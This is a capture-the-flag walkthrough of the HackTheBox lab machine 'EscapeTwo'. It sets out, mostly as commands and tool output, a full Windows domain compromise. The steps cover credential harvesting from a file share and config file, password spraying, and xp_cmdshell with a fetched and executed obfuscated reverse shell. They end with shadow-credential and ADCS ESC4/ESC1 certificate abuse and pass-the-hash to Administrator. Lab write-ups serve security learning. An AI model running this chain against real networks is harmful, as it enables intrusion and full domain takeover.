



Escape Two#
Initial Enumeration#
nmap -sC -sV -Pn 10.10.11.51 -oN scans/nmap.initial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 11:56 GMT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.11.51
Host is up (0.18s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-08 11:56:59Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-08T11:58:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-03-08T05:52:27
|_Not valid after: 2055-03-08T05:52:27
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after: 2025-06-08T17:35:00
|_ssl-date: 2025-03-08T11:58:26+00:00; +1s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-03-08T11:57:51
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.97 seconds
Enumerating LDAP#
We’re given those creds at the beginning of the engagement rose:KxEPkKe6R8su
Rose has ldap access
cme ldap 10.10.11.51 -u rose -p 'KxEPkKe6R8su'
SMB 10.10.11.51 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP 10.10.11.51 389 DC01 [+] sequel.htb\rose:KxEPkKe6R8su
So we can use a bloodhound injester
bloodhound-python \
-u rose \
-p 'KxEPkKe6R8su' \
-c All \
-d sequel.htb \
--dns-timeout 10 \
-ns 10.10.11.51
Starting bloodhound-ce and uploading data to it
docker compose pull && docker compose up
Also get a list of users manually with ldapsearch
type=user
ldapsearch -x -LLL \
-H ldap://10.10.11.51:389 \
-b "CN=users,DC=sequel,DC=htb" \
-D 'rose@sequel.htb' \
-w 'KxEPkKe6R8su' \
"(objectClass=${type})" \
samaccountname |\
grep sAMAccountName |\
cut -d' ' -f 2 |\
tee "${type}"
Enumerating SMB#
smbclient -L //10.10.11.51 -U rose --password 'KxEPkKe6R8su'
Can't load /etc/samba/smb.conf - run testparm to debug it
Sharename Type Comment
--------- ---- -------
Accounting Department Disk
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Users Disk
SMB1 disabled -- no workgroup available
Get the files in the share
smbclient //10.10.11.51/Accounting\ Department -U rose --password 'KxEPkKe6R8su'
smb: \> dir
. D 0 Sun Jun 9 11:52:21 2024
.. D 0 Sun Jun 9 11:52:21 2024
accounting_2024.xlsx A 10217 Sun Jun 9 11:14:49 2024
accounts.xlsx A 6780 Sun Jun 9 11:52:07 2024
6367231 blocks of size 4096. 924956 blocks available
smb: \> mget *
Password leak in corrupted xlsx#
The xlsx is corrupted but can be treated as a zip, once unzipped the file structure is apparently standard, and what we’re interested in is mostly in xl/sharedStrings.xml
xq -r '.sst.si[].t."#text"' sharedStrings.xml
First Name
Last Name
Email
Username
Password
Angela
Martin
angela@sequel.htb
angela
0fwz7Q4mSpurIt99
Oscar
Martinez
oscar@sequel.htb
oscar
86LxLBMgEWaKUnBG
Kevin
Malone
kevin@sequel.htb
kevin
Md9Wlq1E5bZnVDVo
NULL
sa@sequel.htb
sa
MSSQxxxxxxx
That’s what we get
angela:0fxxxxxxxxxxxxxx
oscar:86Lxxxxxxxxxxxxx
kevin:Md9xxxxxxxxxxxxx
sa:MSSQxxxxxxx
MSSQL - Connecting#
The password itself is pretty telling as per what it’s used for, but we can spray it anyway so see if it’s used anywhere else.
cme mssql 10.10.11.51 -u loot/user -p 'MSSQxxxxxxx' --local-auth --continue-on-success
MSSQL 10.10.11.51 1433 DC01 [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Administrator'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Guest'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'krbtgt'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'michael'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ryan'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'sql_svc'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'rose'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ca_svc'.
MSSQL 10.10.11.51 1433 DC01 [+] sa:MSSQxxxxxxx (Pwn3d!)
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'angela'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL 10.10.11.51 1433 DC01 [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'kevin'.
MSSQL - XP Cmdshell#
Connecting to the database and use the built in impacket xp_cmdshell
mssqlclient.py 'escapetwo.htb/sa:MSSQxxxxxxx@10.10.11.51'
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (sa dbo@master)> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa dbo@master)> RECONFIGURE
SQL (sa dbo@master)> xp_cmdshell whoami
output
--------------
sequel\sql_svc
NULL
This shell is pretty limited we probably want to upgrade it to a proper reverse shell
MSSQL - PowerJoker#
Generate an obfuscated reverse shell with powerjoker
python3 /opt/PowerJoker/PowerJoker.py -l 10.10.16.93 -p 4242
We can’t just paste the b64 blob in our xp_cmdshell because it’s too long
[-] ERROR(DC01\SQLEXPRESS): Line 1: Incorrect syntax near 'e'.
[-] ERROR(DC01\SQLEXPRESS): Line 1: The identifier that starts with 'JABzAHQAcgAgAD0AIAAiAFQAYwBQACIAKwAiAEMAIgArACIAbABpACIAKwAiAGUAIgArACIAbgB0ACIAOwAkAHIAZQB2AGUAcgBzAGUAZAAgAD0AIAAtAGoAbwBpAG4A' is too long. Maximum length is 128.
But we can host it in a local webserver and download it
xp_cmdshell powershell -c iwr "http://10.10.16.93:9090/joke.ps1" -o C:\programdata\joke.ps1
xp_cmdshell powershell -c dir C:\programdata\joke.ps1
xp_cmdshell powershell -c C:\programdata\joke.ps1
Once we have a proper reverse shell we can explore a little bit, and find this folder under C:
10.10.11.51:57410 >>> [PJSession] 1: dir
Directory: C:\SQL2019\ExpressAdv_ENU
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 6/8/2024 3:07 PM 1033_ENU_LP
d----- 6/8/2024 3:07 PM redist
d----- 6/8/2024 3:07 PM resources
d----- 6/8/2024 3:07 PM x64
-a---- 9/24/2019 10:03 PM 45 AUTORUN.INF
-a---- 9/24/2019 10:03 PM 788 MEDIAINFO.XML
-a---- 6/8/2024 3:07 PM 16 PackageId.dat
-a---- 9/24/2019 10:03 PM 142944 SETUP.EXE
-a---- 9/24/2019 10:03 PM 486 SETUP.EXE.CONFIG
-a---- 6/8/2024 3:07 PM 717 sql-Configuration.INI
-a---- 9/24/2019 10:03 PM 249448 SQLSETUPBOOTSTRAPPER.DLL
JokerShell C:\SQL2019\ExpressAdv_ENU>
Password leak from the DB config#
And in the database configuration file we can find the SA password we just used to connect to it but also the password of sql_svc which is the user we have this shell as.
10.10.11.51:57410 >>> [PJSession] 1: type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAxxxxxxxxxxx"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQxxxxxxx"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
JokerShell C:\SQL2019\ExpressAdv_ENU>
10.10.11.51:57410 >>> [PJSession] 1: whoami
sequel\sql_svc
Spraying the new password#
The password for sql_svc is reused by ryan
cme ldap 10.10.11.51 -u loot/user -p 'WqSZAxxxxxxxxxxx' --continue-on-success
SMB 10.10.11.51 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP 10.10.11.51 445 DC01 [-] sequel.htb\Administrator:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 445 DC01 [-] sequel.htb\Guest:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 445 DC01 [-] sequel.htb\krbtgt:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 445 DC01 [-] sequel.htb\michael:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 389 DC01 [+] sequel.htb\ryan:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 389 DC01 [-] sequel.htb\oscar:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 389 DC01 [+] sequel.htb\sql_svc:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 389 DC01 [-] sequel.htb\rose:WqSZAxxxxxxxxxxx
LDAP 10.10.11.51 389 DC01 [-] sequel.htb\ca_svc:WqSZAxxxxxxxxxxx
Playing with ActiveDirectory#
I’m going on a bit of a tangent here, trying to get familiar with windows things in various different ways
Powershell ActiveDirectory Module (on Windows)#
Trying to get ryan’s ACLs manually, directly from Powershell
Import-Module ActiveDirectory
Get-Module
Get-Command -Module ActiveDirectory
Get-ADUser ryan
(Get-ADUser ryan).DistinguishedName
Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb"
(Get-Acl -Path "AD:\CN=ryan howard,CN=users,DC=sequel,DC=htb").Access
PowerView.ps1 (On Windows)#
Trying to get ryan’s ACLs manually, from PowerView
iwr "http://10.10.16.70:9090/PowerView.ps1" -o .\PowerView.ps1
Import-Module .\PowerView.ps1
Get-Module
Get-Command -Module PowerView
Get-DomainUser -Identity ryan
(Get-DomainUser -Identity ryan).objectsid
(Get-DomainUser -Identity ryan).distinguishedname
(Get-DomainUser -Identity ryan).samaccountname
Get-DomainUser -Identity ca_svc
(Get-DomainUser -Identity ca_svc).objectsid
(Get-DomainUser -Identity ca_svc).distinguishedname
(Get-DomainUser -Identity ca_svc).samaccountname
Get-Help Get-DomainObjectAcl -full
Get-DomainObjectAcl -ResolveGUIDs -Identity "S-1-5-21-548670397-972687484-3496335370-1114"
Get-DomainObjectAcl -ResolveGUIDs -Identity "CN=ryan howard,CN=users,DC=sequel,DC=htb"
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
PowerView.py (Linux)#
Trying to get ryan’s ACLs manually, from PowerView.py
python3 powerview.py 'sequel.htb/ryan:WqSZAxxxxxxxxxxx@10.10.11.51'
Get-DomainUser -Identity ryan
Get-DomainUser -Identity ca_svc
Get-DomainObjectAcl -ResolveGUIDs -Identity "ryan"
Abusing ryan’s writeOwner over ca svc#

Since ryan has writeOwner privilege over ca_svc we can set him as owner of ca_svc
Get-Help Set-DomainObjectOwner -full
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
Now that ryan is the owner, he can grant him all rights, GenericAll
Get-Help Add-DomainObjectAcl -full
Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights All
We can now re-ingest everything in bloodhound to check what we’ve just done
bloodhound-python \
-u ryan \
-p 'WqSZAxxxxxxxxxxx' \
-c All \
-d sequel.htb \
--dns-timeout 10 \
-ns 10.10.11.51

GenericAll - Change password#
We gave ryan GenericAll on ca_svc we should be able to change its password
This did not work
net rpc password \
"ca_svc" 'fluffydog17!' \
-U "sequel.htb"/"ryan"%"WqSZAxxxxxxxxxxx" \
-S "DC01.sequel.htb"
Failed to set password for 'ca_svc' with error: Access is denied..
But this seems to have worked
bloodyAD \
-u "ryan" \
-p "WqSZAxxxxxxxxxxx" \
-d "sequel.htb" \
--host "10.10.11.51" \
--dns "10.10.11.51" \
set password "ca_svc" 'fluffydog17!'
[+] Password changed successfully!
I could verify with cme that smb and wmi are available to ca svc, but could not log in to either though, it looks like after a while I lost that access. Was it blocked somehow? Changing a password is actually quite noisy an likely to get reported. Maybe that’s htb trying to tell us that we shouldn’t have been lazy and should have used a shadow credentials attack. If I try to change the password again I get
Password can't be changed before -2 days, 23:56:58.619569 because of the minimum password age policy.
GenericAll - Shadow Credentials with Certipy#
Trying certipy, the first time failed, because my ACL changes have been reverted by now. So I’m redoing those steps with powerview.py this time, note that the flags differ slightly from the original powerview
PV > Set-DomainObjectOwner -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
PV > Add-DomainObjectAcl -PrincipalIdentity "ryan" -TargetIdentity "ca_svc" -Rights fullcontrol
Certipy autoaticall adds a key to ca svc and then does some magic with kerberos to eventually give us the NT hash for ca svc, I need to understand what exactly this does at some point, I think a tool called whisper.exe/pywhisker.py can do that too.
certipy shadow auto \
-u "ryan@sequel.htb" \
-p "WqSZAxxxxxxxxxxx" \
-account ca_svc \
-dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '65845dcd-e0d9-2e6f-7d21-0a53048c57de'
[*] Adding Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '65845dcd-e0d9-2e6f-7d21-0a53048c57de' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b18xxxxxxxxxxxxxxxxxxxxx
GenericAll - Shadow Credentials with pyWhisker#
Trying to do that with pywhisker
pywhisker \
--dc-ip 10.10.11.51 \
-d "sequel.htb" \
-u "ryan" \
-p "WqSZAxxxxxxxxxxx" \
-t "ca_svc" \
-a "add" \
-f yay
[!] unsupported hash type MD4
After a bit of troubleshooting that’s a python cryptography issue, installing pycryptodom manually in the environment fixes it.
pip install pycryptodome
Nice, now we know 2 ways to do a shadow credentials attack, we could also do it directly from windows with the original whiskers.exe, but I’ve probably experimented enough for today.
pywhisker \
--dc-ip 10.10.11.51 \
-d "sequel.htb" \
-u "ryan" \
-p "WqSZAxxxxxxxxxxx" \
-t "ca_svc" \
-a "add" \
-f yay
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: f56da038-4be9-488f-a230-80e6c37ac15e
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: yay.pfx
[+] PFX exportiert nach: yay.pfx
[i] Passwort für PFX: WuzNTKHPTjt84AQq6GLq
[+] Saved PFX (#PKCS12) certificate & key at path: yay.pfx
[*] Must be used with password: WuzNTKHPTjt84AQq6GLq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
ADCS ESC4 exploitation with Certipy#
Find ADCS vulnerabilities#
We can now authenticate as ca_svc and look for vulnerabilities in the certificate authority system, note that if run without the stdout flag, certipy find dumps some files that you can injest in bloodhound.
certipy find \
-u ca_svc@sequel.htb \
-hashes :3b18xxxxxxxxxxxxxxxxxxxxx \
-vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250316132722_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316132722_Certipy.txt'
[*] Saved JSON output to '20250316132722_Certipy.json'
A quick grep tells us about one of the templates being vulnerable to ESC4
grep -ri ESC 20250316132722_Certipy.txt
ESC4 : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
But we might as well injest that stuff into bloodhound.
adcs-attack-paths-in-bloodhound
ca svc is part of the cert publisher group, and the cert publisher group has GenericAll over the DunderMifflinAuthentication template,

Which means we can modify it to make it vulnerable to ESC1. In essence that’s what ESC4 means.
ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).
More info about ESC4 and ESC1 from the certipy git:
Update the template#
We found out that the template DunderMifflinAuthentication is vulnerable to ESC4, so we can update the template to make it vulnerable to ESC1
certipy template \
-u ca_svc@sequel.htb \
-hashes '3b18xxxxxxxxxxxxxxxxxxxxx' \
-template 'DunderMifflinAuthentication' \
-target DC01.sequel.htb \
-ns 10.129.89.45
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
Issue a cert with the updated template#
Once the template is updated and vulnerable to ESC1 we can request a cert with that template, as Admnistrator in the upn, and we get back a pfx
certipy req \
-ns 10.10.11.51 \
-dns 10.10.11.51 \
-dc-ip 10.10.11.51 \
-key-size 4096 \
-u 'ca_svc@sequel.htb' \
-hashes :3b18xxxxxxxxxxxxxxxxxxxxx \
-ca sequel-DC01-CA \
-template 'DunderMifflinAuthentication' \
-upn Administrator@sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with multiple identifications
UPN: 'Administrator@sequel.htb'
DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
Unpack the pfx out of curiousity#
A pfx is just a pkcs12 archive, so we can inspect the contents like so
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:''
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
openssl x509 -noout -text
Indeed the SANs have the administrator as UPN
openssl pkcs12 -in administrator_10.pfx -nokeys -passin pass:'' |\
openssl x509 -noout -ext subjectAltName
X509v3 Subject Alternative Name:
DNS:10.10.11.51, othername: UPN:Administrator@sequel.htb
Use the x509 identity to get Admin TGT#
And we can now use certipy auth with that key and cert, and certipy does some more kerberos magic to eventually get us a TGT as Administrator
certipy auth \
-pfx administrator_10.pfx \
-username Administrator \
-domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Found multiple identifications in certificate
[*] Please select one:
[0] UPN: 'Administrator@sequel.htb'
[1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3xxxxxxxxxxxxxxxxxxxxxxxxxxxx:7a8d4e0xxxxxxxxxxxxxxxxxxxxx
Use the Administrator’s TGT with psexec#
And finally we can pass the hash with psexec to get a shell as Administrator
psexec.py -hashes :7a8d4e0xxxxxxxxxxxxxxxxxxxxx Administrator@sequel.htb -codec gbk
Or with evil-winrm
evil-winrm -i 10.10.11.51 -u Administrator -H '7a8d4e0xxxxxxxxxxxxxxxxxxxxx'